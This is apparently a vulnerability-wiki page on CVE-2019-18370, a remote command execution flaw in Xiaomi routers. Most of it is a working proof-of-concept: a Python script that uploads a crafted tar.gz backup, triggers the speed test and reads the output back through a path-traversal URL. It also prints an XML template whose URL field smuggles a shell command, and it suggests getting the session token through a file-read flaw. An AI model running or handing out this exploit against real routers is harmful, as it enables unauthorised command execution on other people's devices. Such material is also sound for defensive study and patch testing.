 # Xiaomi router c_upload remote command execution vulnerability CVE-2019-18370

## Vulnerability Description

Xiaomi router has an interface, and the backup file is in tar.gz format. After uploading, tar zxf is decompressed. Therefore, constructing a backup file can control the file content of the decompressed directory, combine it with the sh script that tests upload download speed function to read the test url list file, and directly splice the url part to execute.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Xiaomi router</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619-20220710155157295.png)

Verify POC

```php
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://xxx.xxx.xxx.xxx/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://xxx.xxx.xxx.xxx/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml file

```php
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>
```

The interface is a background permission interface, and you need to obtain stok through any file reading vulnerability.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657439236976-27a33bc3-42ff-412f-9e66-4c57198d42fe.png)
